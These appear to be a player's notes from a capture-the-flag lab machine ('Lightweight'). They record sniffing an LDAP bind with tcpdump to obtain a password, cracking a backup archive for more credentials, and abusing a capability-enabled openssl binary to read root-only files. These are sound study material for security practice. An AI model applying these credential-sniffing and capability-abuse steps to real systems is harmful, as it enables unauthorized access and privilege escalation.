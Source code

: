 10.10.10.119
> 10.10.14.2

# Ran a nmap scan

# Site bans IPs for exposed services
# But can connect using ssh?

# List of banned ips -- http://10.10.10.119/status.php

# Can connect using ssh ip as username and password

# Write to all users

>>> wall <MESSAGE>

# Write to one user

>>> write <MESSAGE>

# Capabilities seems to be the way forward with this box. A full list of capabilities can be listed
# using 

>>> capsh --print

# By running a TCP dump on the localhost I was able to obtain an
# LDAP authentication request

>>> uid=ldapuser2,ou=People,dc=lightweight,dc=htb
>>> 8bc8251332abe1d7f105d3e53ad39ac2

# NOTE:  -z for ldap search returns all values

# LDAP is used to authenticate local users

# Therfore:

>>> su - ldapuser2 

# Using the ldap password logs the into the user to get the user.txt


### ROOT ###

# Found a .7z file with password encryption. Going to try a file brute force.

# Password for zip file is:

>>> "delete"

# Zip file contains a backup of the website. It had based in it username and password for ldapuser1

>>> ldapuser1
>>> f3ca9d298a553da117442deeb6fa932d

# Running the LinEnum script when logged in as ldapuser1 you can see that the "openssl" script in the home 
# directory has it's capabilities set:

>>> /home/ldapuser1/openssl =ep

# This seems to allow openssl to run as admin
# By looking at https://gtfobins.github.io/. You can see that OpenSSL can be used to read and write files

>>> ./openssl enc -in "/root/root.txt"